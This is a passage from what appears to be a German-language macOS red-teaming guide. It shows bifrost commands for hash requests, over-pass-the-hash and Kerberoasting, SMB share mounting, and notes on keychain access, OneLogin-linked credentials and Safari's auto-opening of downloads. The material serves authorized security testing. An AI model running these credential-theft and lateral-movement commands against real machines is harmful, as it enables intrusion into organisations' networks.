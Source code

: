 Passwörter abrufen mit:
```bash
bifrost --action askhash --username [name] --password [password] --domain [domain]
```
Es ist möglich, das **`Computer$`** Passwort im System-Schlüsselbund zuzugreifen.

### Over-Pass-The-Hash

Holen Sie sich ein TGT für einen bestimmten Benutzer und Dienst:
```bash
bifrost --action asktgt --username [user] --domain [domain.com] \
--hash [hash] --enctype [enctype] --keytab [/path/to/keytab]
```
Sobald das TGT gesammelt ist, kann es mit folgender Methode in die aktuelle Sitzung injiziert werden:
```bash
bifrost --action asktgt --username test_lab_admin \
--hash CF59D3256B62EE655F6430B0F80701EE05A0885B8B52E9C2480154AFA62E78 \
--enctype aes256 --domain test.lab.local
```
### Kerberoasting
```bash
bifrost --action asktgs --spn [service] --domain [domain.com] \
--username [user] --hash [hash] --enctype [enctype]
```
Mit erhaltenen Diensttickets ist es möglich, auf Freigaben auf anderen Computern zuzugreifen:
```bash
smbutil view //computer.fqdn
mount -t smbfs //server/folder /local/mount/point
```
## Zugriff auf den Schlüsselbund

Der Schlüsselbund enthält höchstwahrscheinlich sensible Informationen, die, wenn sie ohne Aufforderung zuzugreifen, helfen könnten, eine Red Team Übung voranzutreiben:

{{#ref}}
macos-keychain.md
{{#endref}}

## Externe Dienste

MacOS Red Teaming unterscheidet sich von einem regulären Windows Red Teaming, da **MacOS normalerweise direkt mit mehreren externen Plattformen integriert ist**. Eine gängige Konfiguration von MacOS besteht darin, auf den Computer mit **OneLogin synchronisierten Anmeldeinformationen zuzugreifen und mehrere externe Dienste** (wie github, aws...) über OneLogin zu nutzen.

## Verschiedene Red Team Techniken

### Safari

Wenn eine Datei in Safari heruntergeladen wird und es sich um eine "sichere" Datei handelt, wird sie **automatisch geöffnet**. Wenn Sie beispielsweise **eine Zip-Datei herunterladen**, wird sie automatisch entpackt:
